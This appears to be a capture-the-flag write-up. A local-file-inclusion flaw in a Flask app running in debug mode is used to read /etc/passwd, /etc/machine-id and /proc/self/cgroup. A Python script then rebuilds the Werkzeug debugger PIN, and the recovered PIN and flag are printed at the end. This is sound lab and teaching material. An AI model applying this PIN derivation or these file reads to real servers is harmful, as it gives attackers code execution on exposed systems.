


## Recon
```python

@app.route(' ')
def file(file):
	return open(file).read()

app.run(host='0.0.0.0', port=8000, threaded=True, debug=True)

```

the appplication has a LFI vulnerability and `debug=true`.To read the flag information , we need obtain the PIN code of the Werkzeug Console.

the code of the Werkzeug Console is generated from the following factors:
- `username`: 
- `modname`
- `app.__name__` or `class name`
- `mod.__file__`
- `MAC address`
- `Machine ID`
- `Container/cgroup identifier`


### Obtain required information:
- username = dreamhack (in dockerfile or cat /etc/passwd)
- modname = flask.app (default)
- app.\_\_name\_\_ = Flask (default)

Obtain MAC addresss: `aa:fc:00:06:df:01`
- obtain inferface --> obtain MAC address



Obtain Machine ID: c31eea55a29431535ff01de94bdcf5cf
```
/etc/machine-id      ---> c31eea55a29431535ff01de94bdcf5cf
/proc/sys/kernel/random/boot_id   ---> ffd7b553-081a-4e11-b347-9d738215664e
```


Obtain Container/cgroup identifier

```
/proc/self/cgroup 


13:pids:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
12:hugetlb:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
11:net_prio:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
10:perf_event:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
9:net_cls:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
8:freezer:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
7:devices:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
6:memory:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
5:blkio:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
4:cpuacct:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
3:cpu:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
2:cpuset:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
1:name=openrc:/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
0::/libpod_parent/libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3
```


## exploit

```python 

import hashlib
from itertools import chain

probably_public_bits = [
    "dreamhack",
    "flask.app",
    "Flask",
    "/usr/local/lib/python3.8/site-packages/flask/app.py"
]

mac = "aa:fc:00:06:df:01"
mac_decimal = str(int(mac.replace(":", ""), 16))

machine_id = "c31eea55a29431535ff01de94bdcf5cf"
cgroup_id = "libpod-cf72a9b78081681cbfb6f1e2c6cc4ffa76605bb274ed6ddec142bc59278d28d3"

private_bits = [
    mac_decimal,
    (machine_id + cgroup_id).encode()
]

h = hashlib.md5()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)

h.update(b"cookiesalt")
cookie_name = "__wzd" + h.hexdigest()[:20]

h.update(b"pinsalt")
num = ("%09d" % int(h.hexdigest(), 16))[:9]

pin = "-".join(num[i:i+3] for i in range(0, 9, 3))

print("PIN:", pin)
print("Cookie:", cookie_name)

```

PIN CODE: `198-327-823`

flag: `DH{2517d2b288f2cdee289a14d3bacd1afc}`